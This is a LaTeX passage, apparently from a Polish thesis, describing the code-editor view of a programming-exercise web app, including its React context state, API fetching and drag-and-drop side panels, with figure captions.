    
\includegraphics[width=1\linewidth]{images/frontend/app/exercises_done.png}
    \caption{Widok panelu szczegółów zadania w statusie \textbf{done}.}
\end{figure}

\subsubsection{Widok kodowania}
Przejście do edytora kodu wyświetla widok kodowania, gdzie użytkownik może rozwiązać wybrane zadanie. Interfejs graficzny środowiska programistycznego bazowany jest na Visual Studio Code i wykorzystuje edytor kodu monaco. Komponent \texttt{CodingScreen} jest odpowiedzialny za agregację spójnego środowiska do edycji kodu. Implementuje on kontekst \texttt{CodingSpaceContext.Provider}, który współdzieli stan między komponentami składowymi, takimi jak edytor oraz paski i panele boczne. Możliwa jest personalizacja środowiska poprzez zmianę położenia paneli bocznych oraz ich rozmiaru. Środowisko umożliwia obsługę wielu plików z kodem.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/code.png}
    \caption{Edytor kodu.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/code_resized.png}
    \caption{Zmieniona szerokość paneli bocznych.}
\end{figure}

\subsubsection{Integracja z API backendowym}
Komponent po zamontowaniu (\texttt{useEffect}) wykonuje asynchroniczne zapytanie pobierające szczegóły zadania na podstawie parametrów \texttt{topic} oraz \texttt{id} przekazanych z adresu URL.

\subsubsection{Zarządzanie stanem środowiska}
W ramach kontekstu zarządzane są następujące informacje:
\begin{itemize}
    \item Stan otwartych kart z plikami (\texttt{tabs}, \texttt{singleTab}) oraz aktualnie wybranego pliku do edycji (\texttt{fileName});
    \item Stan zaznaczonych i rozwiniętych elementów w drzewie katalogów (\texttt{selectedItems}, \texttt{expandedItems}, \texttt{focusedItem});
    \item Pozycje paneli i przycisków sterujących (\texttt{panelPos}, \texttt{buttonsPos}) ustalane w relacji do lewej bądź prawej krawędzi ekranu;
    \item Dane pobranego zadania oraz plików powiązanych (\texttt{task}, \texttt{files}, \texttt{tree}).
\end{itemize}

\subsubsection{Obsługa interakcji Drag and Drop}
Przeciąganie paneli bocznych zrealizowano za pomocą komponentu \texttt{DragDropProvider}. Reaguje on na zdarzenie zakończenia przeciągania (\texttt{onDragEnd}), dynamicznie aktualizując mapowanie pozycji paneli roboczych.

\begin{figure}[H]
    \centering
